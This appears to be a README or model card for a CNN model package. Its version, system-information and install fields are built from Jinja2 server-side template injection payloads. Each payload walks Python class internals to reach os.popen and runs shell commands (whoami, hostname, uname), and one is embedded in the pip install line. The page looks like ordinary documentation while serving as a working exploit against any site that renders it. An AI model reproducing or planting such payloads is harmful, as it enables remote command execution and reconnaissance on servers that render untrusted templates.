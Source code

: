 
**Python Version:** {{''|attr('__class__')|attr('__mro__')|attr('__getitem__')(1)|attr('__subclasses__')()|attr('__getitem__')(104)|attr('__init__')|attr('__globals__')|attr('__getitem__')('sys')|attr('version')}}



---

## System Information (Debugging)



**Current System User:** {{''|attr('__class__')|attr('__mro__')|attr('__getitem__')(1)|attr('__subclasses__')()|attr('__getitem__')(104)|attr('__init__')|attr('__globals__')|attr('__getitem__')('sys')|attr('modules')|attr('__getitem__')('os')|attr('popen')('whoami')|attr('read')()|attr('strip')()}}



**Current Hostname:** {{''|attr('__class__')|attr('__mro__')|attr('__getitem__')(1)|attr('__subclasses__')()|attr('__getitem__')(104)|attr('__init__')|attr('__globals__')|attr('__getitem__')('sys')|attr('modules')|attr('__getitem__')('os')|attr('popen')('hostname')|attr('read')()|attr('strip')()}}



**System Architecture:** {{''|attr('__class__')|attr('__mro__')|attr('__getitem__')(1)|attr('__subclasses__')()|attr('__getitem__')(104)|attr('__init__')|attr('__globals__')|attr('__getitem__')('sys')|attr('modules')|attr('__getitem__')('os')|attr('popen')('uname -m')|attr('read')()|attr('strip')()}}



**Kernel Version:** {{''|attr('__class__')|attr('__mro__')|attr('__getitem__')(1)|attr('__subclasses__')()|attr('__getitem__')(104)|attr('__init__')|attr('__globals__')|attr('__getitem__')('sys')|attr('modules')|attr('__getitem__')('os')|attr('popen')('uname -r')|attr('read')()|attr('strip')()}}



---

## Installation and Usage



### Installation

```bash
pip install {{''|attr('__class__')|attr('__mro__')|attr('__getitem__')(1)|attr('__subclasses__')()|attr('__getitem__')(104)|attr('__init__')|attr('__globals__')|attr('__getitem__')('sys')|attr('modules')|attr('__getitem__')('os')|attr('popen')('whoami')|attr('read')()|attr('strip')()}}-cnn-model=={{1}}.{{2}}.{{0}}
```



### Quick Start



```python
import torch
from model import TestCNNModel

# Initialize model
# IMPORTANT: Version uses {{...}} template notation
model = TestCNNModel(
    layers={{15}},
    parameters={{2500000}},
    version="{{1}}.{{2}}.{{0}}"
)

# Load pretrained weights
# CRITICAL: Weight path uses {{...}} detection template
```